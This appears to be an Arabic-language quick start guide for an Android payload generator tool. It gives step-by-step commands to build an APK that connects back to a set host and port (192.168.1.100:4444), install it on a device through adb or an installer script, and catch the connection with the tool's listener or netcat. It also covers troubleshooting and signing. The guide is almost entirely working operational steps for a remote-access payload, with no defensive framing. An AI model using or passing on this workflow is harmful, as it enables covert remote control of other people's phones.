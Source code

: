 # دليل البدء السريع
## Quick Start Guide

## 🚀 إنشاء APK حقيقي في 5 دقائق

### 1. التثبيت السريع
```bash
# تحميل وتشغيل المثبت
git clone https://github.com/your-repo/android-payload-tool.git
cd android-payload-tool
python install.py
```

### 2. إنشاء APK حقيقي
```bash
# تشغيل الأداة
python main.py --gui

# أو من سطر الأوامر
python main.py
# اختر: 1 (إنشاء بايلود جديد)
```

### 3. تثبيت APK على الجهاز
```bash
# تثبيت مباشر
adb install output/android_payload.apk

# أو استخدام ملف التثبيت
chmod +x output/android_payload_installer.sh
./output/android_payload_installer.sh
```

## 🔧 إذا لم يعمل APK

### الحل السريع
```bash
# إنشاء APK مبسط
python -c "
from core.payload_generator import PayloadGenerator
generator = PayloadGenerator()
result = generator.create_simple_apk('simple_payload', {'lhost': '192.168.1.100', 'lport': 4444})
print(f'APK created: {result}')
"
```

### تثبيت Android SDK
```bash
# تثبيت تلقائي
python -c "from tools.sdk_installer import SDKInstaller; SDKInstaller().setup_complete_environment()"

# أو تثبيت يدوي
# 1. تحميل Android Studio
# 2. تثبيت Android SDK
# 3. إعداد ANDROID_HOME
```

## 📱 اختبار APK

### 1. اختبار الاتصال
```bash
# بدء الاستماع
python main.py
# اختر: 2 (بدء الاستماع)

# أو استخدام netcat
nc -lvp 4444
```

### 2. تثبيت على الجهاز
```bash
# تفعيل وضع المطور
# تفعيل تصحيح USB
# تثبيت APK
adb install output/android_payload.apk
```

## 🆘 حل المشاكل السريع

### مشكلة: "Android SDK not found"
```bash
export ANDROID_HOME=$HOME/Android/Sdk
export PATH=$PATH:$ANDROID_HOME/platform-tools:$ANDROID_HOME/build-tools/34.0.0
```

### مشكلة: "Java not found"
```bash
# Ubuntu/Debian
sudo apt install openjdk-11-jdk

# macOS
brew install openjdk@11

# Windows: تحميل من https://adoptium.net/
```

### مشكلة: "APK لا يعمل"
```bash
# جرب APK مبسط
python test_apk.py

# أو استخدم مشروع Android Studio
# فتح مجلد output/android_payload_project في Android Studio
```

## 📋 الأوامر المفيدة

### فحص APK
```bash
# فحص محتوى APK
unzip -l output/android_payload.apk

# فحص AndroidManifest.xml
aapt dump xmltree output/android_payload.apk AndroidManifest.xml
```

### تثبيت على محاكي
```bash
# بدء محاكي
emulator -avd Pixel_4_API_30

# تثبيت APK
adb install output/android_payload.apk

# تشغيل التطبيق
adb shell am start -n com.payload.app/.MainActivity
```

### تنظيف الملفات
```bash
# حذف APK القديمة
rm output/*.apk

# حذف مشاريع Android
rm -rf output/*_project
```

## 🎯 نصائح مهمة

1. **لأفضل النتائج**: استخدم Android SDK مثبت
2. **للاختبار السريع**: استخدم APK مبسط
3. **للتخصيص**: استخدم مشروع Android Studio
4. **للأمان**: استخدم مفاتيح توقيع قوية

## 📞 الدعم

- راجع `BUILD_APK.md` للتفاصيل الكاملة
- راجع `README.md` للوثائق الشاملة
- شغل `python test_apk.py` لفحص النظام
